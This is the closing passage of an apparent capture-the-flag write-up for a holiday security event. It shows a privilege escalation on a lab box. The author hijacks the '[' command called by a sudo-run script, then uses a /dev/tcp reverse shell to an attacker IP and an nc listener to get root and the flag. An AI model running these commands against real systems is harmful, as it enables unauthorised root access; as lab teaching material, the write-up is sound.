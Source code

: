 ```bash
mcskidy@proddb:~$ ls
'['   app   linpeas   pspy64   user.txt
mcskidy@proddb:~$ ls /opt/
 check.sh 
mcskidy@proddb:~$ cat /home/mcskidy/\[
touch /opt/"$(id)"
mcskidy@proddb:~$ enable -a | grep "\["
enable -n [
mcskidy@proddb:~$ sudo /usr/bin/bash /opt/check.sh
Website is running: http://127.0.0.1:8000
mcskidy@proddb:~$ ls /opt/
 check.sh  'uid=0(root) gid=0(root) groups=0(root)'
```

And taking that into consideration, we simply make an executable `[` in our secure_path writeable folder `/home/mcskidy` that opens another reverse shell...

```bash
mcskidy@proddb:~$ cat \[
sh -i >& /dev/tcp/10.13.8.186/4446 0>&1

mcskidy@proddb:~$ sudo /usr/bin/bash /opt/check.sh
..........
└─$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.13.8.186] from (UNKNOWN) [10.10.219.148] 42662
# whoami
root
# cd /root/
# ls
frosteau
root.txt
snap
yetikey4.txt
```

And we have our flag.

This event was super fun, and I am dying for next years. Thank you for following this series, or cheating up to the topic of your choice. I learned a lot and spent a lot of time staring at the abyss to get to this point. If I didn't have my team of rubber ducks and research partners, I probably wouldn't have had the answers to write this up and get it out to you, so thank you Stefano, DaRealPheyee, Ryzzoa, and Buggy. I'm looking forward to the next years' challenges.